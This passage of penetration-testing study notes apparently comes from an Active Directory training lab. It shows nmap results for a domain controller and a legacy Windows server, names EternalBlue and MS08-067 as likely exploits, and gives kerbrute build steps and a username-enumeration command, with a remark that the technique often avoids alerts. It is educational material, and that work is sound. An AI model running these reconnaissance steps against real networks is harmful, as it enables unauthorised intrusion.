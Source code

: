 #### Critical Service Discovery
**Domain Controller (172.16.5.5) - ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL:**
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

**Legacy System (172.16.5.100) - Potential Quick Win:**
```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 7.5
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2008 R2 Standard 7600
1433/tcp open  ms-sql-s     Microsoft SQL Server 2008 R2 10.50.1600.00
```

**⚠️ Security Note:** Legacy systems present high-value targets for exploits like EternalBlue, MS08-067. Always get client approval before exploiting to avoid system instability.

---

### 4. User Enumeration

#### Kerbrute Installation & Setup
**Technique:** Kerberos pre-authentication username enumeration
```bash
# Clone repository
sudo git clone https://github.com/ropnop/kerbrute.git
cd kerbrute

# View compile options
make help

# Compile for all platforms
sudo make all

# Install binary
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
```

#### Username Enumeration Attack
**Technique:** Leverage Kerberos pre-auth failures (often doesn't trigger alerts)
```bash
# Enumerate users against DC with wordlist
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

